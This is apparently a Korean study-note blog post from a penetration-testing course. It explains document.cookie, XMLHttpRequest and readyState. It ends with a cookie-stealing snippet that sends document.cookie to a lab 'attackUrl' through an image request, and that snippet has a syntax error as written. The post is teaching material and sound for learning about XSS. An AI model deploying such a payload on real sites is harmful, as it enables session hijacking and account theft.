 ```yaml
---
layout: post
title: "[JS] document.cookie, XMLHttpRequest"
date: 2024-11-12
last_modified_at: 
excerpt: "모의해킹 취업반 스터디 7기 4주차"
tags: [JS]
comments: true
---
```


# document.cookie

``` js
let cookie = document.cookie;
console.log(cookie);
```

# XMLHttpRequest
XMLHttpRequest (XHR) 객체는 서버와 상호작용할 때 사용한다.
XHR을 사용하면 페이지의 새로고침 없이도 URL에서 데이터를 가져올 수 있다.

## readystatechange
readyState 속성이 바뀔 때마다 발생한다.
onreadystatechange 속성으로도 수신할 수 있다.

### XHR.readyState
XHR.readyState property returns the state an XHR client is in. An XHR client exists in one of the following states:
<table>
    <thead>
        <tr>
            <td>Value</td>
            <td>State</td>
            <td>Description</td>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>0</td>
            <td>UNSENT</td>
            <td>Client has been created. open() not called yet.</td>
        </tr>
        <tr>
            <td>1</td>
            <td>OPENED</td>
            <td>open() has been called.</td>
        </tr>
        <tr>
            <td>2</td>
            <td>HEADERS_RECEIVED</td>
            <td>send() has been called, and headers and status are available.</td>
        </tr>
        <tr>
            <td>3</td>
            <td>LOADING</td>
            <td>Downloading; responseText holds partial data.</td>
        </tr>
        <tr>
            <td>4</td>
            <td>DONE</td>
            <td>The operation is complete.</td>
        </tr>
    </tbody>
</table>

``` js
let http = new XMLHttpRequest();
let url = "http://192.168.0.8:1018/4th/cookie.php";

http.open("GET", url);
http.send();
http.onreadystatechange = (e) => {
    console.log("http.responseText: ")
    console.log(http.responseText);
}
```

``` js
let cookieData = document.cookie;
let attackUrl = "http://192.168.0.8:1018/4th/cookie.php";
let img = new Image().src = attackUrl "?" + cookieData;
```

# 참고
* [XMLHttpRequest](https://developer.mozilla.org/ko/docs/Web/API/XMLHttpRequest)
* [XMLHttpRequest: readyState property](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/readyState)
* [이미지 객체](https://inpa.tistory.com/entry/JS-%F0%9F%93%9A-%EC%9E%90%EB%B0%94%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8A%B8-%EC%9D%B4%EB%AF%B8%EC%A7%80-%EA%B0%9D%EC%B2%B4-%EC%82%AC%EC%9A%A9%EB%B2%95)